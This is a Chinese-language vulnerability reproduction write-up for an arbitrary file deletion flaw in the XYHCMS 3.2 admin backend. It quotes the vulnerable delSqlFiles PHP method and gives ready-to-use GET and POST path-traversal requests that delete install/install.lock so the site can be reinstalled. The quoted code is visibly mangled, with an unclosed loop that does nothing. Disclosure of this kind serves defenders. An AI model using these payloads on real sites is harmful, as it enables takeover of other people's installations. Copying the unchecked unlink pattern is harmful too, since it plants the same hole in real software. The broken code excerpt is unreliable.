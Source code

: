 XYHCMS 3.2 后台任意文件删除漏洞
===============================

一、漏洞简介
------------

二、漏洞影响
------------

XYHCMS 3.2

三、复现过程
------------

### 漏洞分析

`/App/Manage/Controller/DatabaseController.class.php`

    //删除sql文件
    public function delSqlFiles() {
      
        $id = I('id', 0, 'intval');
        $batchFlag = I('get.batchFlag', 0, 'intval');
        //批量删除
        if ($batchFlag) {
            $files = I('key', array());
        } else {
            $files[] = I('sqlfilename', '');
        }
      
        if (empty($files)) {
            $this->error('请选择要删除的sql文件');
        }
        foreach ($files as $file) {
            $_ext = pathinfo($file, PATHINFO_EXTENSION);
            //拼接后直接删除
      
        foreach ($files as $file) {
            unlink($this->getDbPath() . '/' . $file);
        }
        $this->success("已删除：" . implode(",", $files), U('Database/restore'));
      
    }

### 漏洞复现

1.  登录后台

2.  删除安装锁文件

    a.  get方式

    -   `http://www.0-sec.org/xyhai.php? s=/Database/delSqlFiles/sqlfilename/..\\..\\..\\install/install.lock`

    b.  post方式

    -   `http://www.0-sec.org/xyhai.php?s=/Database/delSqlFiles/batchFlag/1`

        POST数据：`key[]=../../../install/install.lock`

3.  之后访问 `http://www.0-sec.org/install`重装cms
